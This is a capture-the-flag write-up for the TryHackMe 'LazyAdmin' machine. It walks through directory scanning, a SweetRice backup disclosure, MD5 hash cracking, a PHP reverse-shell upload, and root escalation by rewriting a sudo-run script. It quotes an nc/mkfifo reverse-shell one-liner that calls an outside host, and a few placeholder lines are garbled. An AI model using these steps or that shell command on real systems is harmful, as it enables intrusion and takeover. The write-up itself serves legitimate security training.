









# [LazyAdmin](https://tryhackme.com/room/lazyadmi)

<a href="https://tryhackme.com/room/lazyadmi"><figure></figure></a>

> Easy linux machine to practice your skills

Original Capture The Flag available on [Try Hack Me](https://tryhackme.com/room/lazyadmi), made by [MrSeth6797](https://tryhackme.com/p/MrSeth6797).

Dificulty: `Easy`

Solved in: `2026/04/25`

# Table of Contents

...

# Writeup

## Summary

Using vulnarabilities in the `sweetrice` server, the machine is broken.

## Reconnaissance

After opening the machine, I added its IP to the `/etc/hosts` file so I'd have an easier access to it, with the alias `la.net`. To verify everything's alright:

```bash
$ ping -c 3 la.net
PING la.net (<MACHINE_IP>) 56(84) bytes of data.
64 bytes from la.net (<MACHINE_IP>): icmp_seq=1 ttl=62 time=144 ms
64 bytes from la.net (<MACHINE_IP>): icmp_seq=2 ttl=62 time=140 ms
64 bytes from la.net (<MACHINE_IP>): icmp_seq=3 ttl=62 time=140 ms

--- la.net ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 139.544/141.077/143.546/1.762 ms
```

With that, I went on to do a `nmap`[^nmap] scan:

```bash
$ nmap -T4 la.net
Starting Nmap 7.95 ( https://nmap.org ) at 2026-04-25 15:06 UTC
Nmap scan report for la.net (<MACHINE_IP>)
Host ot shown).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Just an `ssh` and an `http`. Without much to do with the `ssh` (after all I don't have an user nor a password) I decided to see what the `http` had to offer:

<figure></figure>

It's just the default landing page of an Apache2 server. Without much else, I recurred to `gobuster`[^gobuster] (using one of the available kali linux wordlists[^wl-dirl23med]) to see if there were any other directories:

```bash
$ gobuster dir -u la.net -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/content              (Status: 301) [Size: 302] [--> http://la.net/content/]
```

There is another! Verifying `/content`...

<figure></figure>

Also another default landing page, this time for `sweetrice`.

## Exploration

Still yet with no info, I decided to go for exploits within `sweetrice` using `searchsploit`[^srchspl] to find 'em:

```bash
$ searchsploit sweetrice
------------------------------------------- ---------------------------------
 Exploit Title                             |  Path
------------------------------------------- ---------------------------------
SweetRice 0.5.3 - Remote File Inclusion    | php/webapps/10246.txt
SweetRice 0.6.7 - Multiple Vulnerabilities | php/webapps/15413.txt
SweetRice 1.5.1 - Arbitrary File Download  | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload    | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure        | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forge | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forge | php/webapps/40700.html
SweetRice < 0.6.4 - 'FCKeditor' Arbitrary  | php/webapps/14184.txt
------------------------------------------- ---------------------------------
Shellcodes: No Results
```

The exploits *Backup Disclosure* (40718), *Arbitrary File Upload* (40716) and *Arbitrary File Download* (40698) all seem very good to use. I decided to go with 40718 first as it could lend me access to the credentials for the system.

```bash
$ cat /usr/share/exploitdb/exploits/php/webapps/40718.txt 
Title: SweetRice 1.5.1 - Backup Disclosure
Application: SweetRice
Versions Affected: 1.5.1
Vendor URL: http://www.basic-cms.org/
Software URL: http://www.basic-cms.org/attachment/sweetrice-1.5.1.zip
Discovered by: Ashiyane Digital Security Team
Tested on: Windows 10
Bugs: Backup Disclosure
Date: 16-Sept-2016


Proof of Concept :

You can access to all mysql backup and download them from this directory.
http://localhost/inc/mysql_backup

and can access to website files backup from:
http://localhost/SweetRice-transfer.zip  
```

Very simple! We can directly access backup files if the directories weren't properly set (and I ask myself if a "Lazy Admin" would have set them...). Entering `la.net/content/inc`:

<figure></figure>
<figure></figure>

It is as so, the database backup was completely exposed! After downloading the file and looking through it, I found the following line:

```
...
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";
...
```

That can be translated to this entry:

- name: Lazy Admin's Website
- author: Lazy Admin
- title: null
- keywords: Keywords
- description: Description
- admin: manager
- passwd: 42f749ade7f9e195bf475f37a44cafcb
- close: close_tip

Great, I found an user (`manager`) and a password (`42f749ade7f9e195bf475f37a44cafcb`). That said, the password is currently encrypted, so I first need to find its plain text. With `hashid`[^hashid] I verified the format:

```bash
$ hashid 42f749ade7f9e195bf475f37a44cafcb                               
Analyzing '42f749ade7f9e195bf475f37a44cafcb'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
...
```

Then `hashcat`[^hashcat], using the `rockyou`[^rockyou] passlist, bruteforces a password out:

```bash
$ hashcat -a 0 -m 0 '42f749ade7f9e195bf475f37a44cafcb' /usr/share/wordlists/rockyou.txt.gz
...
42f749ade7f9e195bf475f37a44cafcb:<FLAG0>
                                                       
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 42f749ade7f9e195bf475f37a44cafcb
...
Started: Sat Apr 25 17:28:00 2026
Stopped: Sat Apr 25 17:28:23 2026
```

The password is, then, <FLAG0>. Now I only need an access panel! Once more I used `gobuster`[^gobuster] to find directories, this time within `sweetrice` (`la.net/content`):

```bash
$ gobuster dir -u la.net/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
...
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://la.net/content/images/]                                                                       
/index.php            (Status: 200) [Size: 2192]
/license.txt          (Status: 200) [Size: 15410]
/js                   (Status: 301) [Size: 305] [--> http://la.net/content/js/]                                                                           
/changelog.txt        (Status: 200) [Size: 18013]
/inc                  (Status: 301) [Size: 306] [--> http://la.net/content/inc/]                                                                          
/as                   (Status: 301) [Size: 305] [--> http://la.net/content/as/]                                                                           
/_themes              (Status: 301) [Size: 310] [--> http://la.net/content/_themes/]                                                                      
/attachment           (Status: 301) [Size: 313] [--> http://la.net/content/attachment/]
```

Besides `/inc` that I just used, the other relevant one here is `/as` that reveals an access panel:

<figure></figure>

That, with user and password properly given, lands into an admin page:

<figure></figure>

So many tabs, so much to search! After a while I found the `Media Center` that allowed file uploading:

<figure></figure>

And, the best part, I found that after sending the file it becomes clickable and, thus, executable:

<figure></figure>

So, I made a reverse shell[^rv] here with one of the many available at [revshells.com](https://revshells.com). Since the server has `PHP` I decided to go with *PHP PentestMonkey*.

Though uploading the file wasn't enough, as `.php` was being blocked. `.php5` wasn't, however:

<figure></figure>

So with `netcat`[^nc] listening on my end:

```bash
$ nc -lvnp 1234
```

I clicked the revshell, and sure enough, I had gotten one!

```bash
$ whoami
www-data
```

## Privilege Escalation

A simple look around revealed me the user flag:

```bash
$ pwd
/home/itguy
$ cat user.txt
<FLAG_USER>
```

`python`[^py] was on the machine, so I quickly elevated the terminal:

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@THM-Chal:/$ whoami
www-data
```

Following suit, I verified the `sudo` permissions:

```bash
www-data@THM-Chal:/$ sudo -l
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

I have two no-password things at my disposal: `perl`[^perl] and a `.pl` script which is the default `perl` extension. From instinct I tried executing a [GTFObin](https://gtfobins.org/) but it wasn't all that simple:

```bash
www-data@THM-Chal:/$ sudo perl -e 'exec "/bin/sh"'
[sudo] password for www-data:
```

So I went on to the next option, verifying the given script:

```bash
www-data@THM-Chal:/$ cat /home/itguy/backup.pl
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Well, it just executes one line with `perl`. It invokes a shell then executes `/etc/copy.sh`. Huh! So I went on to this other file:

```bash
www-data@THM-Chal:/etc$ ls -l copy.sh
ls -l copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 copy.sh

www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

It is a reverse shell[^rv]! And since such is executed with `perl`, I can escalate privileges that way! So I first change the IP to that of my machine:

```bash
www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <MY_MACHINE>
ot shown 5554 >/tmp/f" > copy.sh
www-data@THM-Chal:/etc$ cat copy.sh
cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <MY_MACHINE>
ot shown 5554 >/tmp/f
```

Open up `netcat`[^nc] on the `5554` port, on my machine:

```bash
$ nc -lvnp 5554
```

And simply execute `perl` with `sudo` permissions:

```bash
www-data@THM-Chal:/$ sudo /usr/bin/perl /home/itguy/backup.pl
```

That way, I got another revshell, a sudo one!

```bash
$ nc -lvnp 5554
listening on [any] 5554 ...
connect to [<MY_MACHINE>
ot shown] from (UNKNOWN) [<MACHINE_IP>] 55744
# whoami 
root
```

Last on the list is getting the root flag:

```bash
# pwd
/root
# cat root.txt
<FLAG_ROOT>
```

[^nmap]: https://github.com/nmap/nmap
[^gobuster]: https://github.com/OJ/gobuster
[^srchspl]: https://www.exploit-db.com/searchsploit
[^wl-dirl23med]: https://gitlab.com/kalilinux/packages/dirbuster/-/blob/37f2e9bb1c50bee238aa50d795cf853bb28b2997/directory-list-2.3-medium.txt
[^nc]: https://nc110.sourceforge.io/
[^rv]: https://en.wikipedia.org/wiki/Shell_shoveling
[^hashid]: https://psypanda.github.io/hashID/
[^hashcat]: https://hashcat.net/hashcat/
[^rockyou]: https://weakpass.com/wordlists/rockyou.txt
[^py]: https://www.python.org/
[^perl]: https://www.perl.org/